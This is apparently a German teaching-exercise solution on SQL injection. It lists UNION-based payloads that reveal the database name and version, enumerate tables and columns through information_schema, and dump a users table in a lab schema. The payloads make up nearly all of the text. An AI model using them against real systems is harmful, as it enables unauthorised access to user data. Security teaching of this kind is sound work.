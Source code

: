 #### Aufgabe 2
```sql
z' UNION SELECT 1,2,3,4,5,database(),version();--

```

#### Aufgabe 3

Tabellen Namen

```sql
z' UNION
SELECT 1,2,3,4,5,6, table_name
FROM information_schema.tables
WHERE table_schema='hfr_hacksql'; --
```

Spalten Namen

```sql
z' UNION
SELECT 1,2,3,4,5,table_name,column_name
FROM information_schema.columns
WHERE table_schema='hfr_hacksql'; --
```
#### Aufgabe 4
```sql
zz' UNION SELECT 1, 2, users.* FROM users;--

```

</Solution>

:::::

[^1]: Quelle: [Wikipedia](https://de.wikipedia.org/wiki/SQL-Injection)
